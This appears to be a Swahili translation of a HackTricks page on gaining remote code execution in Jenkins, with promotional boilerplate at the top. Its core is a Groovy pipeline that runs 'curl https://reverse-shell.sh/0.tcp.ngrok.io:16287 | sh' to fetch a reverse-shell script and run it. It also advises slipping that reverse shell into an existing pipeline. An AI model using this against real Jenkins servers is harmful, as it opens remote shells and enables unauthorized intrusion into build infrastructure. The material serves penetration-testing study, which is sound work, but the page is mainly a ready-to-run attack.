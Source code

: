 # Jenkins RCE Kuunda/Kurekebisha Mpipa

<details>

<summary><strong>Jifunze kuhusu kuvamia AWS kutoka mwanzo hadi kuwa shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Kuunda Mpipa Mpya

Katika "Kipengee Kipya" (inapatikana katika `/view/all/newJob`) chagua **Mpipa:**

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

Katika **sehemu ya Mpipa** andika **reverse shell**:

![](<../../.gitbook/assets/image (28).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
## Kubofya hatimaye bonyeza **Hifadhi**, na **Jenga Sasa** na mfuatiliaji utatekelezwa:

![](<../../.gitbook/assets/image (17) (1) (1).png>)

## Kubadilisha Mfuatiliaji

Ikiwa unaweza kupata faili ya usanidi wa mfuatiliaji fulani uliowekwa unaweza tu **kuibadilisha kwa kuongeza kabla yako ya reverse shell** na kisha kuitekeleza au kusubiri mpaka itekelezwe.
